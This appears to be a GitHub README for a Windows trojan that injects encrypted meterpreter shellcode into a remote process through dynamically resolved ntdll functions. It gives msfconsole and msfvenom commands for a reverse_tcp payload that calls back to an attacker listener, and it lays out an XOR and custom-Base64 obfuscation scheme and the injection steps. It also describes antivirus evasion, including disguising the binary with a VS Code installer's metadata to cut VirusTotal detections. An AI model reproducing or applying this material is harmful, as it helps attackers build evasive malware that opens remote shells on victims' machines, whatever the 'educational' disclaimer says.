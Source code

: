 # Native API Remote Process injection Trojan

Remote process injection trojan using Native Api functions (dynamically resolved) and encrypted shellcode, undetected by Windows Defender.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code
This malware calls native api functions usei dynamically resolved function pointers from ntdll.dll, reducing static IAT footprint. So it basically retrieves addresses of native api functions at runtime and uses them to upload shellcode into a target process.

### 1) Listener & payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they are "too perfect" and raise the entropy levels too much.

### 2) Native Api Injector:
We get a handle to ntdll and we dynamically resolve its functions, these are the lowest level Win API calls exposed to the user mode, and are the closest interface to the Windows kernel, below them there are just system calls which i will include in the future. Unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll``` functions are sometimes less likely to be hooked by EDRs at user level.

- In order to use Ntdll we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- Then we use ```GetNtFunctionAddress``` function to dynamically retrieve addresses of NT functions from ntdll using ```GetProcAddress```.
- Once we retrieve them, we can call these native NT functions directly and use them to do cool stuff : )

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter, make sure to use the same xor key;
- Secondly we find the PID of the target process using GetProcID and we get a handle for it;
- We allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable;
- Then we create a new thread in the target process which will execute the shellcode.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection

<img align="right" src="media/nt-crypt-proc-inj-msfvenom.png" width="350" />

The raw exe file is currently undetected by windows defender but gets blocked by Bitdefender (even the free trial, yes bitdefender is the best av in my opinion, only behind crowdstrike). 

On virus total it gets 9 detections and as usual it doesn't show bitdefender flagging it.

If i obfuscate the file even more with Resource Hacker by inserting the metadata of another well known software like visual studio code installer, the detections drop to 2 on virus total. <img align="right" src="media/nt-crypt-proc-inj-msfvenom-reshacked.png" width="350" />


You can obfuscate it even more using tools like soggoth, or by turning it into an msi or iso file.
